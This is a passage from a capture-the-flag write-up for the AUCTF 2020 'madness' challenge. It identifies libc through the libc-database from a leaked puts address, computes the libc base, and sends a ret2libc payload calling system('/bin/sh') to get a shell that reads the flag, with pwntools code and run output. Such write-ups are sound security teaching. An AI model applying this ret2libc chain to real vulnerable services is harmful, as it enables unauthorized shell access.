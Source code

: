 This fugly code just calls the [libc-database](https://github.com/niklasb/libc-database) `find` command with the last 3 nibbles of the `puts` address to return the version of libc used.  The [libc-database](https://github.com/niklasb/libc-database) also has copies of all the libc's in it's `db` directory.

> Before running this exploit the [libc-database](https://github.com/niklasb/libc-database) will need to be downloaded (this will take a while and will take up about 400 MB of space):
>
> ```
> git clone https://github.com/niklasb/libc-database && cd libc-database && ./get
> ```

Once the correct libc version has been identified, computing the base of libc is trivial:

```
libc = ELF('libc-database/db/' + output + '.so')
baselibc = puts - libc.symbols['puts']
print("libc:" + str(hex(baselibc)))
```

Our exploit is currently back in `room4` waiting for the next `gets` attack:

```
payload  = 28 * b'A'
payload += p32(baselibc + libc.symbols['system'])
payload += p32(baseproc + binary.symbols['room4'])
payload += p32(baselibc + next(libc.search(b"/bin/sh")))

p.sendline(payload)
p.interactive()
```    

Since we're not using the PLT any 28 bytes will do.  This time a call to `system` with an arg of `/bin/sh`.

Pwned.

Output:

```
# setarch $(uname -m) -R ./exploit2.py
[+] Starting local process './challenge': pid 13835
[*] '/pwd/datajerk/auctf2020/madness/challenge'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
puts:0xf7e32b70
[*] '/pwd/datajerk/auctf2020/madness/libc-database/db/libc6_2.30-0ubuntu2.1_i386.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0xf7dc1000
[*] Switching to interactive mode
$ cat flag.txt
auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```


